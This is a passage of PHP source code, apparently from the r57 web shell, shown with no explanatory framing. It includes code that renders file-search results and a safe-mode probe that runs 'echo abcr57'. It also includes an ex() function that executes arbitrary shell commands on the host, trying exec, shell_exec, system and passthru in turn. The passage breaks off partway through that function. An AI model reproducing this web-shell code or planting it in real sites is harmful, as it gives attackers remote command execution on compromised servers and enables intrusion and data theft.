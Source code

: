     $res = $sr-&gt;GetResultFiles();
    $found = $sr-&gt;GetMatchesCount();
    $titles = $sr-&gt;GetTitles();
    $r = "";
    if($found &gt; 0)
    {
      $r .= "&lt;TABLE width=100%&gt;";
      foreach($res as $file=&gt;$v)
      {
        $r .= "&lt;TR&gt;";
        $r .= "&lt;TD colspan=2&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;".ws(3);
        $r .= ($windows)? str_replace("/","\\",$file) : $file;
        $r .= "&lt;/b&gt;&lt;/font&gt;&lt;/ TD&gt;";
        $r .= "&lt;/TR&gt;";
        foreach($v as $a=&gt;$b)
        {
          $r .= "&lt;TR&gt;";
          $r .= "&lt;TD align=center&gt;&lt;B&gt;&lt;font face=Verdana size=-2&gt;".$a."&lt;/font&gt;&lt;/B&gt;&lt;/TD&gt;";
          $r .= "&lt;TD&gt;&lt;font face=Verdana size=-2&gt;".ws(2).$b."&lt;/font&gt;&lt;/TD&gt;";
          $r .= "&lt;/TR&gt;\n";
        }
      }
      $r .= "&lt;/TABLE&gt;";
    echo $r;
    }
    else
    {
      echo "&lt;P align=center&gt;&lt;B&gt;&lt;font face=Verdana size=-2&gt;".$lang[$language.'_text56']."&lt;/B&gt;&lt;/font&gt;&lt;/P&gt;";
    }
  echo "&lt;br&gt;&lt;div align=center&gt;&lt;font face=Verdana size=-2&gt;&lt;b&gt;[ &lt;a href=".$_SERVER['PHP_SELF']."&gt;BACK&lt;/a&gt; ]&lt;/b&gt;&lt;/font&gt;&lt;/div&gt;";
  die();
  }
if(strpos(ex("echo abcr57"),"r57")!=3) { $safe_mode = 1; }
$SERVER_SOFTWARE = getenv('SERVER_SOFTWARE');
if(empty($SERVER_SOFTWARE)){ $SERVER_SOFTWARE = "-"; }
function ws($i)
{
return @str_repeat("&nbsp;",$i);
}
function ex($cfe)
{
 $res = '';
 if (!empty($cfe))
 {
  if(function_exists('exec'))
   {
    @exec($cfe,$res);
    $res = join("\n",$res);
   }
  elseif(function_exists('shell_exec'))
   {
    $res = @shell_exec($cfe);
   }
  elseif(function_exists('system'))
   {
    @ob_start();
    @system($cfe);
    $res = @ob_get_contents();
    @ob_end_clean();
   }
  elseif(function_exists('passthru'))